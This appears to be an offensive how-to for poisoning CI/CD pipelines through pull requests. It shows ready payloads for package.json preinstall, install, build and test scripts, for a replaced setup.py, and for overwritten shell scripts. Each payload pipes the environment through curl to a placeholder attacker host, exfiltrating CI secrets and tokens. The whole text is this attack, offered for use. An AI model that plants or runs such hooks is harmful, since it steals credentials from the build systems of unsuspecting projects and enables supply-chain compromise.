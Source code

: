 > The `package.json` file is used by many Javascript / Typescript package managers (`yarn`,`npm`,`pnpm`,`npx`....).

> The file may contain a `scripts` object with custom commands to run.\
`preinstall`, `install`, `build` & `test` are often executed by default in most CI/CD pipelines - hence they are good targets for injection.\
> If you come across a `package.json` file - edit the `scripts` object and inject your instruction there


NOTE: the payloads in the instructions above must be `json escaped`.

Example:
```json
{
  "name": "my_package",
  "description": "",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "set | curl -X POST --data-binary @- {YourHostName}",
    "install": "set | curl -X POST --data-binary @- {YourHostName}",
    "build": "set | curl -X POST --data-binary @- {YourHostName}",
    "test": "set | curl -X POST --data-binary @- {YourHostName}"
  },
  "repository": {
    "type": "git",
    "url": "https://github.com/foobar/my_package.git"
  },
  "keywords": [],
  "author": "C.Norris"
}
```


### Python - setup.py

> `setup.py` is used by python's package managers during the build process.
It is often executed by default.\
> Replacing the setup.py files with the following payload may trigger their execution by the CI.

```python
import os

os.system('set | curl -X POST --data-binary @- {YourHostName}')
```


### Bash / sh - *.sh

> Shell scripts in the repository are often executed in custom CI/CD pipelines.\
> Replacing all the `.sh` files in the repo and submitting a pull request may   trigger their execution by the CI.

```shell
set | curl -X POST --data-binary @- {YourHostName}
```
